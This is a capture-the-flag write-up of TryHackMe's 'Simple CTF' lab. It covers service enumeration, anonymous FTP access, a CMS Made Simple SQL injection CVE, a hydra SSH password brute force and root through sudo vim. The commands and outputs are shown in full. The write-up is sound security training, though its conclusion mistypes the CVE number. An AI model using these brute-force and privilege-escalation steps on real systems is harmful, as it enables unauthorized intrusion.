








# Simple CTF
**Date:** May 17th 2022

**Author:** j.info

**Link:** [**Simple CTF**](https://tryhackme.com/room/easyctf) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- How many services are running under port 1000?
- What is running on the higher port?
- What's the CVE you're using against the application?
- To what kind of vulnerability is the application vulnerable?
- What's the password?
- Where can you login with the details obtained?
- What's the user flag?
- Is there any other user in the home directory? What's its name?
- What can you leverage to spawn a privileged shell?
- What's the root flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.184.34`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

This answers the first two objectives.

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.184.34 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/simple               (Status: 200) [Size: 19913]
```

<br>

## FTP Digging

We're able to login to the FTP server as an anonymous user:

`ftp 10.10.184.34`

```
Connected to 10.10.184.34.
220 (vsFTPd 3.0.3)
Name (10.10.184.34:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files
```

We see one file listed on the FTP server, which I download:

```
ftp> ls -al
229 Entering Extended Passive Mode (|||48420|)
ftp: Can't connect to `10.10.184.34:48420': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |**********************************************************|   166        1.06 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (2.18 KiB/s)
```

And displaying that file:

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

So it looks like we have a username of Mitch, and we'll likely not have a hard time cracking whatever password he's using.

<br>

## Website Digging

Visiting the main page just shows a standard unconfigured Apache2 default page:



Looking at the **robots.txt** file:

```
User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

Looking at the link from robots.txt **/openemr-5_0_1_3** shows us it doesn't exist:



Visiting **/simple** link we see a CMS page called **CMS Made Simple**:



In the lower left corner we see version that's running:



I check **exploit-db** to see if the CMS version is exploitable and it appears to be:



I download and run the exploit but I can't get it to work properly. It just tries to enumerate and doesn't actually populate any of the info it's supposed to:

`python2 46635.py -u http://10.10.184.34 --crack -w rockyou.txt`

```
[+] Salt for password found: 
[+] Username found: 
[+] Email found: 
[+] Password found:
```

And it is the correct exploit we're supposed to run because typing **CVE-2019-9053** into the TryHackMe question says it's correct. We also see that in the script it's checking for **SQLi** vulnerabilities so that answers the 4th question.

Given the file we found on the FTP server which mentioned a user named mitch, and it said they used a weak password, I'm just going to brute force it with **hydra**:

`hydra -l mitch -s 2222 -P rockyou.txt 10.10.184.34 ssh`

```
[DATA] attacking ssh://10.10.184.34:2222/
[2222][ssh] host: 10.10.184.34   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
```

That answers the 5th question.

<br>

## System Access

I try and ssh over:

`ssh mitch@10.10.184.34 -p 2222`

```
The authenticity of host '[10.10.184.34]:2222 ([10.10.184.34]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.184.34]:2222' (ED25519) to the list of known hosts.
mitch@10.10.184.34's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
```

That answers the 6th question.

I upgrade my shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
mitch@Machine:~$
```

In his home directory it shows:

```
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
```

And viewing it with `cat user.txt` answers question 7:

```
G00d j0b, keep up!
```

I check the **/home** directory for other users since it's an objective and see the following, which answers question 8:

```
mitch  sunbath
```


Checking `sudo -l` shows us we can run **vim** as root:

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

<br>

## Root

Since we can run **vim** as root I check [**GTFOBins**](https://gtfobins.github.io/gtfobins/vim/) and see that we can easily escalate to root:



I run `sudo vim -c ':!/bin/sh'`:

```
                               VIM - Vi IMproved

                                version 7.4.1689
                            by Bram Moolenaar et al.
            Modified by pkg-vim-maintainers@lists.alioth.debian.org
                  Vim is open source and freely distributable

                         Help poor children in Uganda!
                 type  :help iccf<Enter>       for information

                 type  :q<Enter>               to exit
                 type  :help<Enter>  or  <F1>  for on-line help
                 type  :help version7<Enter>   for version info# 
# 
# 
# whoami
root
```

That answers question 9.

In the **/root** directory we see:

```
-rw-r--r--  1 root root   24 aug 17  2019 root.txt
```

`cat root.txt`

```
W3ll d0n3. You made it!
```

<br>

With that we've finished this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a username in a file on the **ftp** site
- The CMS system is vulnerable to **CVE-2019-905** which is an **SQLi** that enumerates usernames and passwords
- The downloaded script did not work and we end up using **hydra** to brute force the password for our initial foothold
- Checking **sudo -l** shows us we can run **vim as root**, and we use **GTFOBins** for privilege escalation

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)